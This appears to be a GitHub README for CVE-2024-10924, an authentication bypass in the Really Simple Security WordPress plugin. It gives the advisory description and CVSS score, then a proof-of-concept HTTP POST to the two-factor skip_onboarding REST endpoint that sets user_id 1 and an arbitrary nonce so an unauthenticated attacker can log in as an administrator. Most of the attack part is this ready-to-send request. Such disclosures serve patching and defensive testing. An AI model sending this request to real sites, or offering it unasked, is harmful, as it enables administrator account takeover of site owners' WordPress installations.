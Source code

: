# CVE-2024-10924
 Really Simple Security (Free, Pro, and Pro Multisite) 9.0.0 – 9.1.1.1 – Authentication Bypass

 # Description

 The Really Simple Security (Free, Pro, and Pro Multisite) plugins for WordPress are vulnerable to authentication bypass in versions 9.0.0 to 9.1.1.1. This is due to improper user check error handling in the two-factor REST API actions with the 'check_login_and_get_user' function. This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, when the "Two-Factor Authentication" setting is enabled (disabled by default).

```
CVSS VectorCVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVE	CVE-2024-10924
CVSS	9.8 (Critical)
Publicly Published	November 14, 2024
Last Updated	November 14, 2024
Researcher	István Márton - Wordfence
```

POC
---

```
POST /wp-json/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;
Connection: keep-alive
Content-Length: 90

{
    "user_id":1,
    "login_nonce": "231231231",
    "redirect_to": "/wp-admin/"
}

```
